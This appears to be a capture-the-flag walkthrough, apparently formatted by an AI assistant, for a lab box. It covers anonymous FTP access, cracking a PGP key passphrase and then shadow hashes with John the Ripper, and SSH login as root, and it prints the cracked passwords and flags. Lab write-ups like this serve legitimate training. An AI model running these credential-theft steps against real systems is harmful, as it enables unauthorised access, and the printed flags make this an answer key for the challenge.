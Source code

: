 Perfect 🚀 Here’s a polished **GitHub-ready write-up** of your exploitation path. I’ll structure it cleanly with commands, outputs, and explanations so it’s easy to follow for CTF/THM notes.

---

# VSFTPD & PGP Key Escalation — CTF Walkthrough

## 🔎 Enumeration

First, we scan the target:

```bash
nmap -sV 10.10.128.22
```

**Results:**

```
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
```

FTP is open → check for anonymous login:

```bash
nmap -p21 --script ftp-anon 10.10.128.22
```

✅ **Anonymous login allowed**. We get full access to the filesystem.

---

## 📂 Looting FTP

Navigate to `/home/melodias`:

```bash
ftp> cd /home/melodias
ftp> ls -la
```

Found:

* `user.txt` 606083fd33beb1284fc51f411a706af8
* `.wget-hsts` referencing GitHub Gist
* interesting directories `/tmp` and `/notread`

Check `/notread`:

```bash
ftp> cd /notread
ftp> ls -la
```

Found:

* `backup.pgp`
* `private.asc`

Downloaded both:

```bash
ftp> get private.asc
ftp> get backup.pgp
```

---

## 🔑 Cracking the PGP Key

Import the private key:

```bash
gpg --import private.asc
```

It’s protected with a passphrase. Extract hash for cracking:

```bash
gpg2john private.asc > keyhash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt keyhash.txt
```

**Cracked passphrase:** `xbox360`

---

## 🔓 Decrypting Backup

Now decrypt the backup:

```bash
gpg --decrypt backup.pgp > shadow
```

This revealed `/etc/shadow` contents including `root` and `melodias`.

---

## 💥 Cracking Hashes

Save the hashes to `hashes.txt` and run:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

**Result:**

* root → `hikari`

---

## 🛠️ Exploitation

SSH into the box as root:

```bash
ssh root@10.10.128.22
```

Password: `hikari`

Verify:

```bash
whoami
# root
```

---

## 🎯 Flags

* **User Flag:** `user.txt` in `/home/melodias`
* **Root Flag:**

```bash
cat /root/root.txt
f706456440c7af4187810c31c6cebdce
```

---

## 📝 Summary

1. Anonymous FTP → browse filesystem
2. Found PGP key & encrypted backup
3. Cracked passphrase (`xbox360`) with `john`
4. Decrypted backup → obtained `/etc/shadow`
5. Cracked root hash (`hikari`)
6. SSH root access → captured flags

💀 **Full system compromise achieved.**
